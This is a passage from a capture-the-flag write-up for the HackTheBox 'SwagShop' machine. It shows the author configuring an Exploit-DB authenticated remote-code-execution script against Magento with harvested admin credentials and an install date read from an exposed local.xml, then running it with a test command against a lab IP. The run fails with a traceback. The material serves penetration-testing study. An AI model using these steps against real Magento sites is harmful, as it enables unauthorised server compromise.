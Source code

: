 At this point I decided to revist the other authenticated RCE as I felt I &nbsp;should be able to chain this with the first one to get a shell, as documented in the Checkpoint article.

First we need to grab the exploit so we can play with it

`cp /usr/share/exploitdb/exploits/php/webapps/37811.py .`

This code is pretty much good to go, we just need some config:
```python
    # Config.
    username = ''
    password = ''
    php_function = 'system' # Note: we can only pass 1 argument to the function
    install_date = 'Sat, 15 Nov 2014 20:27:57 +0000' # This needs to be the exact date from /app/etc/local.xml
```
The username and password are those from the first exploit, so **forme** in my case. The install\_date is needed as this is used as part of the encryption routine we're going to exploit. Luckily Nikto reported that the `/app` directory was indexable. If we browse to `http://10.10.10.140/app/etc/local.xml` we can get this information.

![vlcsnap-2019-07-19-07h31m28s270](../../images/posts/2019/2019-11-19-swagshop-writeup/vlcsnap-2019-07-19-07h31m28s270.png)Once completed the config looks like:
```python
    # Config.
    username = 'forme'
    password = 'forme'
    php_function = 'system' # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000' # This needs to be the exact date from /app/etc/local.xml
```
We can then try this out:
```bash
    python 37811.py http://10.10.10.140/index.php/admin "id"
    Traceback (most recent call last):
    File "post-rce.py", line 68, in <module>
        tunnel = tunnel.group(1)
    AttributeError: 'NoneType' object has no attribute 'group'
```
Hmm, okay. So after hunting around I came across [https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/) which had a good explanation of the vulnerability and helped make sense of the exploit.
